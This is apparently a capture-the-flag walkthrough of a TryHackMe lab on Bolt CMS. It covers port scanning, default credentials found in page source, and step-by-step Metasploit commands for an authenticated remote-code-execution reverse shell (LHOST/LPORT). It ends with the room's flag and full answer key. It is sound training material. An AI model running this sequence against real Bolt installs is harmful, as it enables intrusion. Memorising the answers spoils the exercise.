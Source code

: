 ```yaml
---
a hero is unleashed, This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution.
---
```

### rustscan

> found port 22, 80, 8000

> password found in (source code)

*Content Management System (CMS). These web applications are used to manage content on a website. For example, blogs, news sites, e-commerce sites and more! *

> gobuster, feroxbuster nothing so search on Google like *bolt cms default login page*

> then Go to the login page at http:\//yourdomain.com/bolt Sign up with your: Username or email.

> login to IP:8000/bolt/login with Bolt:boltadmin123 and get version CMS *Bolt 3.7.1*

[bolt CMS 3.7.0](https://www.exploit-db.com/exploits/48296)

### Metasploit

```
msfconsole -q 
```

```
search bolt
```

```bolt authenticated rce
use 0
```

```
show options
```

```use ur vpn
set LHOST vpn-ip
```

```
set LPORT 4444
```

```
set RHOST IP-room
```

```
set USERNAME Bolt
```

```
set PASSWORD boltadmin123
```

```
run
```

```root
whoami
```

```
ls
```

```
cd /home
```

```
cat flag.txt
```

==THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}==

- What port number has a web server with a CMS running? *8000*
- What is the username we can find in the CMS? *Bolt*
- What is the password we can find for the username? *boltadmin123*
- What version of the CMS is installed on the server? (Ex: Name 1.1.1) *Bolt 3.7.1*
- There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID? *48296*
- Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
Note: If you can't find the exploit module its most likely because your metasploit isn't updated. Run `apt update` then `apt install metasploit-framework`
*exploit/unix/webapp/bolt_authenticated_rce*
- Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit *No answer needed*
- Look for flag.txt inside the machine. *THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}*

[[Break Out The Cage]]
